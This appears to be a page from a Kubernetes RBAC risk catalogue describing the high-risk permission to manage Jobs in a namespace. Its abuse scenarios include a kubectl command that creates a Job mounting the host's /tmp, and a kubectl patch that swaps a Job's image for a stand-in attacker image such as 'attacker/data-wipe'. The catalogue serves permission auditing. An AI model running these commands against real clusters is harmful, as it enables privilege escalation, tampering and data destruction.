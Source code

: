 ```yaml
---
id: 1042
title: "Manage Jobs in a namespace (one-off privileged execution)"
description: "Permits creating, updating, or deleting Jobs within a specific namespace. This can be used to run a one-off pod, potentially with privileged settings, leading to code execution and potential privilege escalation within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                              |
| ------------- | -------------------------------------------------------------------------------------------------- |
| ID            | 1042                                                                                               |
| Name          | Manage Jobs in a namespace (one-off privileged execution)                                          |
| Risk Category | Elevation of Privilege                                                                             |
| Risk Level    | {{< risk High >}}                                                                                  |
| Role Type     | Role                                                                                               |
| API Groups    | batch                                                                                              |
| Resources     | jobs                                                                                               |
| Verbs         | create, update, patch, delete                                                                      |
| Tags          | {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Permits creating, updating, or deleting Jobs within a specific namespace. This can be used to run a one-off pod, potentially with privileged settings, leading to code execution and potential privilege escalation within that namespace.

## Abuse Scenarios

1. Create a new Job with a hostPath mount in the namespace.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: batch/v1
kind: Job
metadata:
  name: hostpath-job
spec:
  template:
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "echo 'Hello from job' >> /host-tmp/job.log"]
        volumeMounts:
        - mountPath: /host-tmp
          name: host-tmp
      volumes:
      - name: host-tmp
        hostPath:
          path: /tmp
      restartPolicy: OnFailure
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing Job's image to a malicious one.

```bash {copy=true}
kubectl patch job <job-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/image", "value": "attacker/malicious-script"}]'
# Example: kubectl patch job cleanup-old-data -n production --type='json' -p='[{"op": "replace", "path": "/spec/template/spec/containers/0/image", "value": "attacker/data-wipe"}]'

```

